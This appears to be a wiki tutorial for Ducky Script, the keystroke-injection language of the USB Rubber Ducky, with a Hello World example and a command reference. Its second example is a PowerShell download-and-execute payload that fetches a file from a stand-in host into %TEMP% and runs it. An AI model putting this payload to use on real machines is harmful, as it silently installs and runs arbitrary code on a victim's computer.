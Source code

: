 = Introduction =
Since first time Ducky users are unfamiliar with Ducky Script, below is a brief summary (with examples) on how to code in Ducky Script.

= Example 1 - Hello World =
The Ducky fires the payload immediately, so you need an initial delay for the OS to recognize and allow the Ducky to proceed as a keyboard, in this example we use a delay of 3secs (3000msecs) for the Windows OS (other OS's may be quicker).

The steps of this example can be broken down into:
* Initial Delay for the OS
* GUI R triggers the run-box
* Small delay to wait for the run-box to open
* Ducky types notepad ENTER to load notepad
* Small delay to wait for notepad to open
* Ducky then types an arbitrary string into notepad

 DELAY 3000
 GUI R
 DELAY 200
 STRING notepad
 ENTER
 DELAY 200
 STRING Hello World!!!
 ENTER
= Example 2 - Download & Execute =
An example of using Powershell to download a file from the web and then execute it.
 DELAY 3000
 GUI r
 DELAY 100 
 STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe');
 DELAY 100
 STRING Start-Process "%TEMP%\bob.exe"
 ENTER
= Other Examples =
The community is storing generated payloads on the following wiki-page:
* [[Payloads]]

=Command Breakdown=
* DELAY ''x'' - Delay in milli-secs
* STRING ''xyz'' - types following characters
* GUI - Windows Menu Key
* GUI R - Windows Run box
* COMMAND - OSX Command Key
* UP | UPARROW - Up Key
* DOWN | DOWNARROW - Down Key
* LEFT | LEFTARROW - Left Key
* RIGHT | RIGHTARROW - Right Key
* CAPS |CAPSLOCK - Capslock Key
* ENTER - Return/Enter key
* SPACE - Spacebar
* REPEAT ''x'' - Repeat previous command X times.
You can even use some (but not all) two or three key-combinations:
* SHIFT-ENTER
* CTRL-ALT-DEL
* ALT-F4